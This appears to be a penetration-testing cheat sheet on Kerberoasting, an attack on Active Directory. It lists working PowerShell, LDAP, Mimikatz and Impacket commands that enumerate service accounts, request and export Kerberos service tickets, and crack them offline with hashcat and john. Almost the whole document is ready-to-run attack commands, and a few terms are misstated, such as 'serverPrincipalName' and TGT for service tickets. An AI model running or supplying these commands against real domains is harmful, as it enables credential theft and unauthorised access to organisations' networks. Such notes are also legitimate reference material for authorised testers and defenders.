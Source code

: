 # Kerberoast

Send a request to a TGT for a Kerberos token, dump it from memory, crack it locally to obtain access to the target. The TGT can also be used to forge a Silver Ticket and gain access to the service machine. Vulnerable accounts need to have the flag `serverPrincipalName` set.

## Exploit

### Windows machine

Vulnerable users in domain

```
Get-NetUser -SPN | select serviceprincipalname    

get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
get-adobject -filter {serviceprincipalname -ne $null} -prop serviceprincipalname

setspn -T <domain> -Q */*
```

Enumerate with LDAP Powershell module

```
$ldapFilter = "(&(objectClass=user)(objectCategory=user)(servicePrincipalName=*))";
$domain = New-Object System.DirectoryServices.DirectoryEntry;
$search = New-Object System.DirectoryServices.DirectorySearcher;
$search.SearchRoot = $domain;
$search.PageSize = 1000;
$search.Filter = $ldapFilter;
$search.SearchScope = "Subtree";
$results = $search.FindAll()
$Results = foreach ($result in $results){
$result_entry = $result.GetDirectoryEntry();
$result_entry | Select-Object @{
Name = "Username"; 
Expression = { $_.sAMAccountName }},@{Name = "SPN"; Expression = { $_.servicePrincipalName | Select-Object -First 1 }}}
$Results;
```

Enumerate past remote sessions on local machine

```
klist
```

Request a Service Ticket from the target. The ticket will be stored in memory

```
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
```

Dump the SPN ticket using Mimikatz

```
privilege::debug
token::elevate
kerberos::list /export
```

### \*nix machine

Enumerate vulnerable accounts. Requires a valid user and password

```
GetUserSPNs.py <domain>/<user>:<pass>            #check user
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user>    #query the DC
```

Dump TGT

```
GetUserSPNs.py <domain>/<user>:<pass> -dc-ip <DC IP> -request  #dump TGTs of current user
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user> -request-user <target user> #dump TGTs of target user
```

## Crack hash

Crack the .kirbi file or hash received from impacket

```
hashcat -m 13100 --force <hashfile> <wordlist>
john --format=krb5tgs --wordlist=<wordlist> <hashfile>    #requires jumbo version
```
